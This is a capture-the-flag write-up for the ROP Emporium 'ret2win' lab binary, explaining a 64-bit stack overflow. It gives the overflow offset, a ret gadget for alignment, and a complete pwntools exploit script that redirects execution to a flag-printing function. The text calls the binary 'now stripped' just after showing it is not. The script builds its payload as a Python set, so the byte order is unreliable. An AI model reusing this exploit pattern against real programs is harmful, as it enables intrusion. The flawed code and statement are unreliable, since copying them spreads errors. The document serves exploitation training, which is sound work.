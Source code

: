 # ret2win

Locate a method that you want to call within the binary.
Call it by overwriting a saved return address on the stack.

## Writeup

We can check if the binary is stripped or not:

```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```

The binary is now stripped we can see function names.

Now check which checks are enabled in this binary:

```
[*] '/home/kali/ROP Emporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The stack is not executable, so we can't inject a shellcode.

The program in the **main** function call the function **pwnme**:

```c
void pwnme(void)

{
  undefined buffer [32];
  
  memset(buffer,0,32);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,buffer,56);
  puts("Thank you!");
  return;
}
```

This function insert **56 bytes** of user input into **32 bytes** of buffer.

The binary also has a function called **ret2win**:

```c
void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

This function will show the flag.

So we need to put the address of this function inside the stored **RIP** register value inside the stack.

The binary is **not stripped** so we can extract the address of the function from the symbols table and there is **no PIE** enabled, so we can use this address as it is.

```python
ret2win_addr = exe.symbols['ret2win']
```

We need to fill the buffer with 32 bytes plus the 8 bytes of **stored RBP** to reach the stored RIP register value:

```python
buffer_dim = 32
offset = buffer_dim + 8 # 8 bytes of rbp

payload = {
    b'a' * offset,
    p64(ret2win_addr),
}
```

Our payload is ready to be sent, but the stack is not aligned, we can use a **ret** gadget to make it aligned:

```python
buffer_dim = 32
offset = buffer_dim + 8 # 8 bytes of rbp

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]

payload = {
    b'a' * offset,
    p64(ret),
    p64(ret2win_addr),
}
```

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

context.terminal = ["tmux", "splitw", "-h"]

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

ret2win_addr = exe.symbols['ret2win']

buffer_dim = 32
offset = buffer_dim + 8 # 8 bytes of rbp

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]

payload = {
    b'a' * offset,
    p64(ret),
    p64(ret2win_addr),
}

payload = b"".join(payload)

io.sendlineafter(b'> ', payload)

io.interactive()
```

This is the output:

```
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```